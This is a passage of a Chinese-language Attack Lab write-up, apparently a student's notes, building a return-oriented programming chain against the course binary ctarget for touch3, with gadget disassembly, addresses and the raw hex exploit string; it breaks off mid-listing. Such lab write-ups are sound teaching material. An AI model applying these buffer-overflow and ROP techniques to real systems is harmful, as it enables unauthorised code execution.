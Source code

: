 将上面的代码存在input.txt中，命令行输入`./hex2raw < input.txt | ./ctarget`,攻击成功.
栈的情况如下图
![](https://raw.githubusercontent.com/HJLomega/bomblab_picture/master/attack_lab4.png)

### 第三关2.0
注意到
```
000000000040191a <add_xy>:
  40191a:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  40191e:	c3    
```  
考虑到栈随机化，可以通过栈指针来获取栈地址。所以做法是，把栈指针%rsp和偏置分别送到%rdi和%rsi再调用`<add_xy>`,之后再把返回值送到%rdi即可。
把%rax送到%rdi有直接的gadget，而把%rax送到%rsi则需经过多次周转，其中`movl`抹去了地址的高4位00 00 7f ff,故应该再偏置中补全，再加上代码的偏置0x30所以偏置为`00 00 7f ff 00 `
gadget汇编代码为
```
popq %rax
mov %rax rdi
movq %rsp %rax
movl %eax %edx
movl %edx %ecx
movl %ecx %esi
ret # <add_xy>
movq %rax %rdi
ret # <touch3>
```
指令的地址为
```
<gv116> 58 90 c3 8a c3       # popq %rax nop ret 地址为0x4018e7
4018df:	8d 87 48 89 c7 90    # movq %rax %rdi 地址为0x4018e1 

401995:	8d 87 48 89 e0 c3    # movq %rsp %rax 地址为0x401997
401926:	b8 89 c2 08 d2       # movl %eax %edx 地址为0x401927
401962:	c7 07 89 d1 38 c0    # movl %edx %ecx cmpb  地址为0x401964
40191f:	8d 87 89 ce 20 c0    # movl %ecx %esi andbq 地址为0x401921
40191a:<add_xy> 
$rax正常 为7f ff ff fa 3d e8
4018df:	8d 87 48 89 c7 90    # movq %rax %rdi 地址为0x4018e1 
```
所以,代码为
```
33 33 33 33 33 33 33 33 
33 33 33 33 33 33 33 33 
33 33 33 33 33 33 33 33 
33 33 33 33 33 33 33 33 
33 33 33 33 33 33 33 33
00 00 00 00 00 40 18 e7
00 00 7f ff 00 00 00 30
00 00 00 00 00 40 18 e1
00 00 00 00 00 40 19 97
00 00 00 00 00 40 19 27
00 00 00 00 00 40 19 64
00 00 00 00 00 40 19 21
00 00 00 00 00 40 19 1a
00 00 00 00 00 40 18 e1
00 00 00 00 00 40 18 51
33 35 35 32 34 37 61 37
00 00 00 00 00 00 00 00
```
化为小端
```
33 33 33 33 33 33 33 33 
33 33 33 33 33 33 33 33 
33 33 33 33 33 33 33 33 
```